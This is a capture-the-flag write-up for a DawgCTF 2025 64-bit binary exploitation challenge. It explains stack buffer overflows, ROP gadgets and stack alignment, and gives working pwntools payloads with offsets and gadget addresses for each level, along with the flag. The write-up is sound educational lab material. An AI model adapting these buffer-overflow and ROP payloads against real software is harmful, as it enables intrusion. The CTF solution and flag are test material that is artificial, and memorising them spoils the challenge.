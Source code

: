 ```yaml
---
title: "64 bits in my Ark and Texture"
description: "Can you pwn it? No libc or system needed. Just good ol, 64 bit binary exploitation."
pubDate: 2025-04-22
ctf: "DawgCTF"
category: "Pwn"
author: "HulkOperator"
image: "./images/25-dawg/icon.png"
section: "CTFs"
---
```


## Background
### Stack Buffer Overflow
A buffer overflow occurs when excessive data is written into a space with limited capacity. When this happens, the extra data leaks out of the variable's bounds and overwrites other values on the stack. If random values overflow the buffer, then the program crashes. However, by crafting a calculated payload, we can control the execution flow through this overflow. 

Typically, the return address is targeted when exploiting such vulnerabilities. What exactly is a return address, and what purpose does it serve? When a function completes its execution, the program needs to know where to resume operation—that's where the return address comes in. This value stored on the stack tells the processor where to continue execution after the function finishes. 

If we can overwrite the return address during the buffer overflow, we can control the program's execution flow.

### ROP Gadgets
This challenge requires a heavy reliance on ROP Gadgets to obtain the flag. Hence, before moving to the solution, let's understand what they mean. 
ROP Gadgets are small sequences of machine instructions already present in a binary and end with the `ret` instruction. These gadgets can be used to manipulate values in registers. For example, the following gadget pops the value on the top of the stack into the `rdi` register and returns.
```asm
pop rdi
ret
```

### x64 Stack Alignment
While solving this challenge, I wasted a lot of time due to stack alignment issues. Hence, let's understand why it's essential. 
x86_64 architecture requires that the stack be 16-byte aligned at all times. That is, the value of the register `rsp` must be divisible by 16. If the stack is not aligned and a function is called, it will most likely result in a crash. 

## Solution
Now that we have covered the background information, let's dive into solving this challenge.

### Level 0
The binary asks three simple questions about the x86_64 Architecture, which are trivial to answer.

![Level 0 Answers](images/25-dawg/x64_level0.png)

### Level 1
Now, the actual fun begins. The Level 1 asks us to jump to the address `0x401401`. We can test if the program is vulnerable to buffer overflow using two methods. The long and tedious one would be decompiling the binary using Ghidra, analyzing the source code, and checking if it is vulnerable. A simpler approach would be to send a large input value and check if the program crashes. Let's do this.

A large input value can be generated using 
```py
print("A"*1000)
```
Entering this value crashes the program
![Vuln Confirmation](images/25-dawg/x64_level_1_1.png)

Now that we have confirmed the existence of a vulnerability, we need to identify the position of the payload that's overwriting the return address. We can do this by sending an input with a pattern.
`msf-pattern_create -l 1000`

Then fire up GDB `gdb ./chall` and enter `r` to run the program. For the level 1 input, paste the pattern generated above and identify the `rsp` value when the program crashes.
![RSP Crash Value](images/25-dawg/x64_level_1_2.png) 

Then `msf-pattern_offset -q 0x4132664131664130` can be used to identify the offset where the return address is overwritten. The result indicates the offset as 152. 

This level asks us to jump to the address `0x401401`. We can do this by sending a payload starting with 152 bytes of arbitrary data and then this address. When the function is completed, the execution flow is resumed at the address of our choice.
Well, not so fast. If we do this, we break the stack alignment and our payload causes a crash (Because 152 % 16 != 0). We must add an additional byte to our payload to keep the stack aligned.
Hence, we can use a simple `ret` gadget to maintain the stack alignment. We can identify the address of this gadget using the `ROPgadget` tool.
`ROPgadget --binary ./chall --opcode c3`

Since we are dealing with binary data, we can no longer copy and paste input. So, the rest of the implementation will be done using Python.
```py
from pwn import *

conn = process("./chall")

# Level 0 
conn.recvuntil(b"> ")
conn.sendline(b"2")
conn.recvuntil(b"> ")
conn.sendline(b"1")
conn.recvuntil(b"> ")
conn.sendline(b"4")
print(conn.recv().decode())

# Level 1
l1_arbitrary_data = b"A" * 152
ret_gadget = p64(0x40101a)
l1_ret_addr = p64(0x401401)

l1_payload = l1_arbitrary_data + ret_gadget + l1_ret_addr
conn.sendline(l1_payload)
print(conn.recvuntil(b"Continue:").decode())
```

### Level 2
The next level challenges us to jump to the address `0x401314` with the argument `0xDEADBEEF`. The process used to solve this level is similar to the previous level. By crashing the program, the offset for the return address turns out to be `40`. 

This is just one part of the problem. The other part is to pass `0xDEADBEEF` as an argument to this function. In the x86_64 architecture, the first four arguments are passed in the registers `rdi`, `rsi`, `rdx`, and `rcx`. Additional arguments are placed on the stack from right to left. 
Hence, we can manipulate the `rdi` value by placing `0xDEADBEEF` on the stack and jumping to the following gadget
```asm
pop rdi
ret
```
This gadget's address can be identified using `ROPgadget --binary ./chall --opcode 5fc3`.

So, our level 2 payload will look as follows
```py
l2_arbitrary_data = b"A" * 40
ret_gadget = p64(0x40101a)
pop_rdi_gadget = p64(0x4017d6)
deadbeef = p64(0xdeadbeef)
l2_ret_addr = p64(0x401314)
l2_payload = l2_arbitrary_data + ret_gadget + pop_rdi_gadget + deadbeef + l2_ret_addr
conn.sendline(l2_payload)
print(conn.recv().decode())

conn.interactive()
```

### Level 3
Level 3 has a bit more steps and challenges us to pass three arguments (`0xDEADBEEF`, `0xDEAFFACE`, and `0xFEEDCAFE`) and figure out the function's address. The challenge binary has defined these levels in different functions, namely, win1, win2, and win3. Since the address of win3 is not given, we can use GDB to identify the address: `disass win3`. This gives us the Win3 function's address `0x4011e6`. 

Now, the process used to solve this challenge is exactly the same as the previous level. However, since 3 arguments are involved, we have to utilise 3 gadgets for manipulating `rdi`, `rsi`, and `rdx` registers. 

```py
# Level 3
l3_arbitrary_data = b"A" * 56
win3_addr = p64(0x4011e6)
pop_rdi_ret = p64(0x4017d6)
pop_rsi_ret = p64(0x4017d8)
pop_rdx_ret = p64(0x4017da)

payload = l3_arbitrary_data + p64(0x40101a)+  pop_rdi_ret + p64(0xDEADBEEF) + pop_rsi_ret + p64(0xDEAFFACE) + pop_rdx_ret + p64(0xFEEDCAFE) + win3_addr
conn.sendline(payload)
print(conn.recv().decode())

conn.interactive()
```


Flag: `DawgCTF{C0ngR4tul4t10ns_d15c1p13_y0u_4r3_r34dy_2_pwn!}`
